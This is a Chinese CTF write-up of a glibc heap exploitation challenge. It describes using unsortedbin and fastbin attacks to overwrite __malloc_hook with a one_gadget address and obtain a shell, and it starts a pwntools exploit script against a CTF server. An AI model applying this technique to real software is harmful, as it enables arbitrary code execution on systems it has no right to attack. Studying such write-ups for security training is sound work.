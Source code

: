 思路：

* 通过**unsortedbin attack**来leak出堆的地址

* 通过**fastbin attack**控制__malloc_hook

* **__malloc_hook**劫持程序流

首先要知道chunk的结构

```assembly
struct malloc_chunk{
    INTERNAL_SIZE_T prev_size;   //size of previous chunk
    INTERNAL_SIZE_T size;        //size inbytes, including overhead

    struct malloc_chunk* fd;     //double links -- used only free
    struct malloc_chunk* bk;
    
    ....
}
```

默认情况下，INTERNAL_SIZE_T的大小在64位系统下是8字节，32位系统下是4字节。

#### __malloc_hook

__malloc_hook是glibc中的一个函数指针变量，它的原型如下：

```assembly
/*第一个同malloc的size参数，第二个参数是调用malloc的那个函数的地址*/
void * function(size_t size, void * caller)
```

可见其实__malloc_hook相当于给malloc函数套了一层外壳，当这个函数指针的值**不为NULL**时，系统在调用malloc是就会触发这个hook，执行hook所指向的函数。合理构造该函数就可以达到自定义malloc的行为，**捕获**甚至**控制**返回值。类似的还有\_\_free_hook，\_\_realloc_hook 等，原理大同小异。

我们可以将__malloc_hook函数指针改为got表中的其它函数指针，那么当执行malloc的时候就回去直接执行我们修改的函数。

如果我们将__malloc_hook函数指针修改为one_gadget的地址，那么我们就可以在执行malloc的时候起一个shell。

#### exp:

```assembly
# -*- coding: UTF-8 -*-
from pwn import *

libc = ELF("./libc-2.23.so")

io = remote("node3.buuoj.cn",26273)

def command(index):
    io.sendlineafter("Command: ", str(index))

def allocate(size):
    command(1)
    io.sendlineafter("Size: ", str(size))

def fill(index, content):
    command(2)
    io.sendlineafter("Index: ", str(index))
    io.sendlineafter("Size", str(len(content)))
    io.sendlineafter("Content: ", content)

def free(index):
    command(3)
    io.sendlineafter("Index: ", str(index))

def dump(index):
    command(4)
    io.sendlineafter("Index: ", str(index))
```